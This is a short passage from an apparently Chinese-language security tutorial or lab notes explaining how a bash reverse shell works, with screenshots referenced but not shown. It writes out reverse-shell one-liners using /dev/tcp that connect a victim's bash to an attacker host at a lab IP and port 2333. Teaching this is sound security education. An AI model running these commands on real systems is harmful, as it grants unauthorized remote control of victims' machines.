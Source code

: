 ```
bash -i < /dev/tcp/192.168.159.134/2333
```

如下两图在攻击端输入命令，可以在受害者方面显示结果。

![image-20220910172033193](0.相关知识.assets/image-20220910172033193.png)

![image-20220910172041340](0.相关知识.assets/image-20220910172041340.png)

#### 3.将两条指令合起来

**可以在攻击端输入并得到输出**

```
bash -i > /dev/tcp/192.168.159.134/2333 0>&1
```

![image-20220910172427178](0.相关知识.assets/image-20220910172427178.png)
